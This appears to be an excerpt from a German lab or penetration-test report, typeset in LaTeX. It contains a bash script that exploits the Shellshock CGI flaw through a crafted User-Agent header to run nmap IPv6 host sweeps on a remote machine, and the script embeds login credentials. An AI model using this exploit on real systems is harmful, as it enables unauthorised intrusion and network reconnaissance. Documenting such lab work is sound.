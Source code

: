 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\begin{lstlisting}[caption=Scan der IPv6-Netze,label=code:scan2,language=bash,style=simple]
#!/bin/bash
# variable "pres" als array deklarieren
declare -a pres=("c447:e9d2:3553")

for pre in ${pres[@]} 
do
for i in {0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f}
do

ips=""

for j in $(seq 0 1 255)
do

# convert $j to hex
hex=$(echo "obase=16; $j" | bc)

# calculate IP
ip="fdcb:${pre}:100${i}::${hex}"

# add IP to list of IPs
ips="${ips} ${ip}"

done

file="net6-${pre}-${i}"
inCmd="nmap -6 -sP ${ips}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo;'${inCmd}';" http://localhost:8805/cgi-bin/search'

echo "INJECTED COMMAND"
echo "==="
echo ${inCmd}
echo "==="
eval $cmd
done
done

\end{lstlisting}

Anschließend haben wir von den gefundenen Hosts die Ports mittels nmap -A -p- gescannt (Listing ~\ref*{code:pscan}).
\end{document}
